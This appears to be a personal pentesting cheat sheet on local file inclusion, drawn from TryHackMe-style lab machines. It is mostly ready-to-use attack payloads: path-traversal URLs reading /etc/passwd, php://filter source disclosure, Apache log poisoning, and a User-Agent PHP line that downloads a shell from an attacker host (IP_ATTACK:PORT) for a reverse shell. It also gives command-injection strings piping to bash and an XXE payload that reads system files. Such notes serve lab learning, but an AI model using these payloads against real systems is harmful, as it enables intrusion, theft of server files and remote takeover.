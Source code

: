 ```yaml
---
title: LFI 🎃
---
```


## Classic ones

- If you find the php code with the filter like:

```php
        <?php

	    //FLAG: thm{explo1t1ng_lf1}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
```

- You can just apply a filter like: `http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//../etc/passwd`

## Adding parameter file to url

- Linux File Inclussion
  - Check the `url` adding parameter `file`

![](Pasted%20image%2020240213235821.png)

## Fuzzing it

- FUZZ it using this command:
  - [Useful wordlist found here](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/)

```shell
wfuzz -c -w dirTraversal.txt  --hw 0 http://10.10.70.109/?view=FUZZ
```


## Bypassing filters with encodings


- If the backend is filtering by checking the input, try this:

```shell
http://IP/?view=php://filter/FOLDER/convert.base64-encode/resource=index

# example
http://mafialive.thm/test.php?view=//filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php
```

- Check out the &ext variable and put it empty because it won't get the file extension

## Log poisoning

- To perform this, first check out if you have access to the log file in an apache with Burpsuite:



- Log file contamination

```shell
http://IP/?view=dog../../../../../cat/../var/log/apache2/access.log&ext=
```


## Exploiting the User-Agent field

- Exploit the User-Agent Field:
  - First create a shell like the PentestMonkey one
  - Create a python server
  - Load the petition (like log file contamination petition) and capture it with BurpSuite
  - Modify the User-Agent field with this command:

```shell
<?php file_put_contents('shell.php', file_get_contents('http://IP_ATTACK:PORT/shell.php'))?>
```

- Then access to `http://IP/shell.php` and you got the reverse shell

## Regex filtering

When we can echo commands try and it's using a regex like: `/[#!@%^&*()$_=\[\]\';,{}:>?~\\\\]/` try:

```shell
http://IP_HOST/echo.php?search=id+|+bash
# Then just try other commands like
echo.php?search=ls+|+bash
# Then try to input a reverse shell
```

## Web filtering

If a web shell filters your input, try to encode it into `base64`

![](Pasted%20image%2020240417160455.png)

- If it doesn't work, try some [Command Injection 💄](command_injection.md)

## XML file inclusion (XXE)

- If a web accepts XML, it could be vulnerable to XXE.
- You can try to upload a code like this to inspect the system:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
   <!ELEMENT data ANY >
   <!ENTITY name SYSTEM "file:///etc/passwd" >]>
<comment>
  <name>&name;</name>
  <author>Pavandeep</author>
  <com>Hacking Articles</com>
</comment>
```

- Change the `"file:///etc/passwd"` for the one you want